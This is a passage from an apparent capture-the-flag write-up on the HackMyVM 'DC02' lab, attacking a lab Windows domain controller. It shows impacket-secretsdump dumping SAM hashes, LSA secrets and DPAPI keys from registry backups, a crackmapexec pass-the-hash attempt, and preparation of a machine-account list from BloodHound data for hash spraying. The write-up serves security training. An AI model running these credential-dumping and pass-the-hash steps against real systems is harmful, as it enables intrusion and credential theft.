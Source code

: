 These backups will be uploaded to the SMB server we set up  earlier as we specify in the command. We can now dump the content of these backups using `impacket-secretsdump`.

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC02/Misc File]
└─$ impacket-secretsdump -sam SAM.save  -system SYSTEM.save -security SECURITY.save LOCAL 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:92737daf8b0c620cb11e6213ff29e2fa1c69d7e7286527db7fa45d18086e744af77521ffb4aa4d79a1d1fad0315cdfa798e4e308239d2ad3a85bfb8db8f8061721841a31e6baab96ce038a74b28a13a00e0e8dc180780720b32f1600760304037995d963a5cf80fd5c48e170464e06e66e3e54b056e4aba1e76ac1ea93279d351010a43ef39222662c451171d0420989821b6129e0cc29ae256c9aa991413d78c0837646f1fd3cfb07da60dc3840a999c311de7646638510c784b99729eda82d5fefa3a49f3bde9f66b2dad0661b2d5904d90cf934411aefaca46b5db4cda04745217b3f9bf58e0070eb2c8f63782bee
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:<REDACTED>
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up... 
```

The SAM backup contains an administrator NTLM hash but we can't log in using this hash.
```bash
┌──(pentester㉿kali)-[~/…/DC02/Scans/AD Enumeration/Bloodhound]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u Administrator -H 209c6174da490caeb422f3fa5a7ae634  
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:209c6174da490caeb422f3fa5a7ae634 STATUS_LOGON_FAILURE
```

We can also notice the hash of a machine account i.e. $MACHINE.ACC. We can perform a password spray of this hash to all machine accounts in the active directory environment. We first need a word list of all machine accounts on the target. We can get this using the `xxxxxxxxxx_computers.json` file from Bloodhound's enumeration.
```bash
┌──(pentester㉿kali)-[~/…/DC02/Scans/AD Enumeration/Bloodhound]
└─$ unzip 20241013145714_bloodhound.zip
Archive:  20241013145714_bloodhound.zip
 extracting: 20241013145714_groups.json  
 extracting: 20241013145714_domains.json  
 extracting: 20241013145714_computers.json  
 extracting: 20241013145714_users.json  

┌──(pentester㉿kali)-[~/…/DC02/Scans/AD Enumeration/Bloodhound]
└─$ cat 20241013145714_computers.json | jq .  | grep samaccountname | cut -d '"' -f4 > machines.txt
```
